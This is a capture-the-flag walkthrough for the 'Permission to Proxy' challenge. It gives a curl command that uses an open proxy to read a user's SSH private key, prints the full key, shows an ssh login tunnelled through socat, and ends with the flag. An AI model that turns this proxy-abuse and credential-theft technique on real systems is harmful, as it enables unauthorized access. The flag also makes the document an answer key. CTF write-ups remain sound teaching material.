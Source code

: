 ## Name: Permission to Proxy
#### Author: @JohnHammond
#### Category: Misc
#### Difficulty: N/D
#### Description: Where do we go from here?

Escalate your privileges and find the flag in root's home directory.

Yes, the error message you see on startup is intentional. ;)

## Procedure
1





curl --proxy "challenge.ctf.games:30912" "http://permission-to-proxy-435ee5c1b183e84e-85bb87f785-96qzd:50000/home/user/.ssh/id_rsa" 

-----BEGIN OPENSSH PRIVATE KEY-----
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
JauN0ipko/W2sAAAAJa2FsaUBrYWxpAQI=
-----END OPENSSH PRIVATE KEY-----


chmod 400 id_rsa_proxy 

ssh -i id_rsa_proxy -o "ProxyCommand=socat - PROXY:challenge.ctf.games:%h:%p,proxyport=30912" user@permission-to-proxy-435ee5c1b183e84e-85bb87f785-96qzd

flag{c9bbd4888086111e9f632d4861c103f1}
